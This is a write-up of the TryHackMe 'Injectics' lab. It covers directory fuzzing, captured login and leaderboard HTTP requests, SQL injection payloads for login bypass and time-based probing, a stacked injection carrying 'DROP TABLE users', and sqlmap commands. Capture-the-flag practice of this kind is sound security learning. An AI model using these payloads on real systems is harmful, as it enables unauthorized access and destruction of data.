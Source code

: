# Injectics

{% embed url="https://tryhackme.com/room/injectics" %}

### Initial enumeration

#### Basic fuzzing:

{% code overflow="wrap" %}
```bash
$ gobuster dir -u http://<target> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
{% endcode %}

...

Interesting files: `composer.lock`, **`composer.json`**

From `composer.lock`, I found out that the application uses Twig.

#### Source code review

... found file `mail.log`

### Exploring the application

#### (1) Normal user login

```http
POST /functions.php HTTP/1.1

Host: ...
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 57
Origin: http://...
Connection: keep-alive
Referer: http://10.10.244.88/login.php?mail=t&pass=t
Cookie: PHPSESSID=oqttvasr6crs86ila4mi3kbjf6
Priority: u=0

username=1&password=1&function=login
```

**Possible SQL query:**

```sql
SELECT * FROM table WHERE username = x AND password = x 
```

Injection to `username` POST field:

```sql
'||1=1;-- //there is an explicit space right after the comment (--)
```



* This works with space in between the items too:&#x20;

```
' || 1=1;-- 
```

`' || 1=1; --`&#x20;

```sql
SELECT * FROM table WHERE username = ''||1=1'-- AND password = '1' 
```

**Further learning**

* To explore what other injection methods can be used, I utilized Sqlmap:&#x20;

> `login.txt` contains the HTTP POST request from above

```sh
$ sqlmap -r login.txt --risk=3 --level=5
' RLIKE SLEEP(3) -- n 
```

#### (2) Edit leaderboard

After the successful injection on the login form, we are able to view the dashboard page, which presents us with a method to edit the leader board table:

```http
POST /edit_leaderboard.php HTTP/1.1
Host: 10.10.244.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://10.10.175.148
Connection: keep-alive
Referer: http://10.10.175.148/edit_leaderboard.php?rank=1&country=USA
Cookie: PHPSESSID=4rtpdvbsmkvqquno4am9ij5h6q
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=1&country=1&gold=1&silver=1&bronze=1
```

**Possible SQL query:**

```sql
UPDATE table SET gold = x, silver = x, bronze = x WHERE id = x;
```

**ATTEMPT 1**

Injection to the `gold` field:

```sql
22, silver = 22, bronze = 22;-- // explicit space after comment
```

```
UPDATE table SET gold = 22, silver = 22;--, silver = x, bronze = x; 
```

**ATTEMPT 2**

**rank=1\&country=\&gold=22 WHERE 1=1; DROP TABLE users;--\&silver=1\&bronze=1**

```
-> UPDATE table SET gold = 22 WHERE 1=1; DROP TABLE users;--, silver = 22, bronze = x WHERE id = x; 
rank=1&country=&gold=222 WHERE 1=1; DROP TABLE users;--&silver=22&bronze=22 -> 
```

**Further learning**

Sqlmap:&#x20;

```
$ sqlmap -r leaderboard.txt -p gold,silver,bronze --dbms=mysql 
```

